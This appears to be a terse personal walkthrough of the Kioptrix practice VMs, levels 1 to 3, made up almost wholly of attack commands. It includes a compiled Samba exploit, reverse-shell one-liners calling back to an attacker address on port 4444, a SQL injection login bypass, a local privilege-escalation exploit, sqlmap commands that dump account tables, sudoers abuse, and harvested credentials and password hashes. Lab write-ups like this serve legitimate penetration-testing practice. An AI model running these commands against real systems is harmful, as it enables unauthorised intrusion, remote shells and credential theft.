 #### --Level 1-- 
enum4linux      192.168.139.128

##### searchsploit Samba 2.2

gcc /usr/share/exploitdb/exploits/multiple/remote/10.c -o exploitsamba

./exploitsamba -b 0 192.168.139.128

bash -i >& /dev/tcp/192.168.139.129/4444 0>&1

#### --Level 2--

SQL injection: admin'or '1'-'1

Welcome to the Basic Administrative Web Console

bash -i >& /dev/tcp/192.168.139.129/4444 0>&1

##### searchsploit Linux 2.6 Privilege Escalation CentOS

cp /usr/share/exploitdb/exploits/linux/local/9545.c 

localhost", "john", "hiroshima") or die(mysql_error());

mysql -u john -p
Enter password: hiroshima
show databases;

#### --Level 3--

nikto -host 192.168.139.131

##### LotusCMS-Exploit

https://github.com/Hood3dRob1n/LotusCMS-Exploit/blob/master/lotusRCE.sh

	$GLOBALS["gallarific_mysql_username"] = "root";
	$GLOBALS["gallarific_mysql_password"] = "fuckeyou";

	dreg 		0d3eccfb887aabd50f243b3f155c0f85 Mast3r
	loneferret 	5badcaf789d3d1d09794d8f021f40f0e starwars

root@kali:~# cd /usr/share/wordlists/  
root@kali:/usr/share/wordlists# gunzip rockyou.txt.gz 

loneferret@Kioptrix3:~$ export TERM=xterm   
Update: /etc/sudoers   
Then sudo su  

##### OR:  
add hostname,   

http://kioptrix3.com/gallery/  

Search db:
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --dbs
Check table:
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -p id --tables -D gallery
Dump password:
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -p id -T dev_accounts --dump
